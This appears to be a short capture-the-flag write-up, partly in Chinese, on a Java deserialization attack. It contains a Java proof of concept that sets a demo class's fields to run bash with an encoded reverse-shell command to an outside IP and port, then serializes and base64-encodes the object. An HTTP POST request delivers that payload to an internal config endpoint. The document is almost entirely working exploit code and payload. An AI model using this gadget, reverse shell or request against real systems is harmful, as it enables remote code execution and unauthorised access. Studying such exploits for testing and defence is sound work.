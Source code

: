 Poc

```java
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;

public class Poc {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, NoSuchMethodException, InvocationTargetException {
        Class clazz = Class.forName("com.example.demo.Ping");
        Constructor constructor = clazz.getDeclaredConstructor();
        constructor.setAccessible(true);
        Object pingObj = constructor.newInstance();
        Field command = clazz.getDeclaredField("command");
        command.setAccessible(true);
        Field arg1 = clazz.getDeclaredField("arg1");
        arg1.setAccessible(true);
        Field arg2 = clazz.getDeclaredField("arg2");
        arg2.setAccessible(true);
        command.set(pingObj, "bash");
        arg1.set(pingObj, "-c");
        arg2.set(pingObj, "{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzExMi4xMjQuNDQuMjM4LzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}");
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(pingObj);
        String payload = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(payload);
    }

}
```

打反序列化反弹 shell（注意 Content-Type 要用 text/plain）

```javascript
POST /internalApi/v3.2/updateConfig HTTP/1.1
Host: 8.130.129.179:51180
Connection: close
Content-Type: text/plain
Content-Length: 268

rO0ABXNyABVjb20uZXhhbXBsZS5kZW1vLlBpbmcAAAAAAAAAAQIAA0wABGFyZzF0ABJMamF2YS9sYW5nL1N0cmluZztMAARhcmcycQB+AAFMAAdjb21tYW5kcQB+AAF4cHQAAi1jdABZe2VjaG8sWW1GemFDQXRhU0ErSmk5a1pYWXZkR053THpFeE1pNHhNalF1TkRRdU1qTTRMekV5TXpRZ01ENG1NUT09fXx7YmFzZTY0LC1kfXx7YmFzaCwtaX10AARiYXNo
```
